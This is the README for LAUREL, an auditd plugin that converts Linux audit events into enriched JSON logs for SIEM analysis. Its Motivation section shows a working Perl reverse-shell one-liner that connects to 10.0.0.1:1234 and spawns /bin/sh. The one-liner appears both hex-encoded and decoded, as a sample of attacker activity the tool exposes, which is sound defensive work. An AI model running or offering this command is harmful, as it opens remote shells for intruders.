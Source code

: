 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Motivation

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. The event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing, transforming, enriching them, and writing them out as a separate JSON-based log. All information that was part of the original audit log is kept intact. _auditd(8)_ is not replaced as the consumer of audit messages from the Linux kernel. Instead, _auditd's_ plugin interface (previously called _"audisp"_) is used, therefore _LAUREL.. can peacefully coexist with other consumers of audit events (e.g. some EDR products).

The chapter [_LAUREL_ installation instructions](INSTALL.md) contains instructions on how to set up and configure usage of the plugin.

Details about the log format are described in the [JSON-based log format](json-format.md) chapter.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) chapter for details.

## Audit rules

Currently, _LAUREL_ comes with no explicit recommendations on what to log. This is left as an exercise to the user. A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>.

_LAUREL_ will currently work best if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the parent of the process that caused the event. If available, `id` points to the message corresponding to the last `execve` syscall for this process:

``` json
"PARENT_INFO": {
  "ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
}
```

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as keys to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out noise.

Consider the following audit rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
``` ini
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting a single event.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
